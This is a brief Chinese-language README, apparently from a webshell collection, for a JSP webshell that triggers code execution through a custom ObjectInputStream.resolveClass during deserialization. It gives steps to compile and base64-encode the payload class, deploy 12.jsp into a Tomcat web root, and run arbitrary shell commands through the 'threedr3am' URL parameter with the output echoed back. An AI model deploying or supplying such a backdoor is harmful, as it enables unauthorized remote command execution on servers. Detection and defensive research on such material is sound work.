 ### 重写ObjectInputStream.resolveClass实现反序列化readObject触发的JSP Webshell

编译字节码:
```
javac Threedr3am_12.java

cat Threedr3am_12.class|base64
```

使用：
```
ps:若要修改字节码逻辑，修改后按照上面编译字节码的方式得到base64字节码替换jsp文件中的base64字节码

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问12.jsp，并使用参数threedr3am传入需要远程执行的命令，例：http://127.0.0.1:8080/12.jsp?threedr3am=whoami

3.服务器将会执行相应的shell命令，最后回显
```